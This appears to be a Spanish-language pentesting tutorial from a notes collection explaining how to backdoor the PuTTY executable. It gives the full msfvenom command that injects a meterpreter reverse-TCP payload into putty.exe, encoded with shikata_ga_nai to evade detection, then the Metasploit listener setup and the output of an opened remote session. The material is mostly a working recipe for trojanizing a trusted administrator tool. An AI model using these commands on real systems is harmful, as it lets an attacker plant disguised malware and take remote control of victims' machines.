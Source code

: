 # Backdoors en binarios

Esto consiste en coger un ejecutable o un programa que el usuario utilice frecuentemente y vamos a injectarle codigo malicoso para que cada vez que ejecute ese programa nos devuelva una consexion reversa, pero dicho programa va a seguir funcionando exactamente igual que lo hacia antes de estar `backdoorizado`.

Por ejemplo vamos a utilizar una herramienta que utilizan mucho los administradores y es el programa llamado `PuTTY`:

Primero nos descargaremos el archivo.

```shell
wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
```

Y ahora vamos a utilizar `msfvenom` para incrustar el codigo de la `backdoor` dentro de la aplicacion:

```shell
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```

Info:

```
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: puttyX.exe
```

Con esto lo que estamos haciendo es que con el `-a` especificarle la arquitectura en este caso `32 bits` con el `--platform` especificamos el sistema operativo en el que se va a ejecutar en mi caso `windows` con el `-x` el nombre del archivo en el cual queremos injectar la `backdoor` con el `-p` especificamos el `payload` que vamos a utilizar, con el `-e` especificamos el tipo de codificacion que queremos ponerle al codigo para que sea mas complicado de detectar en el sistema como un `malware`, con el `-i` especificamos que le de `3` vueltas de codificacion, con el `-b` especificamos que omita caracteres en los que pueda generar un problema en este caso `\x00` el `0` en `hexadecimal`.

Ahora antes de ejecutarlo en un `windows` lo que tendremos que hacer es ponernos a escuchar en `metasploit`:

```shell
msfconsole -q
```

La configuracion de la escucha:

```shell
use multi/handler
set LHOST <IP>
set LPORT <PORT>
set payload windows/meterpreter/reverse_tcp
exploit
```

Una vez que estemos a la escucha, nos iremos al `windows` nos pasaremos el archivo al mismo y lo ejecutaremos, si lo ejecutamos vemos que se nos inicia la aplicacion normal sin ningun tipo de sospecha:

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Pero si nos vamos al `kali` donde tenemos la escucha, veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.5.186:7777 
[*] Sending stage (176198 bytes) to 192.168.5.181
[*] Meterpreter session 1 opened (192.168.5.186:7777 -> 192.168.5.181:49900) at 2024-11-24 05:21:32 -0500

meterpreter >
```

Veremos que tendremos una shell con el `windows`, por lo que ya tendriamos una `backdoor`.
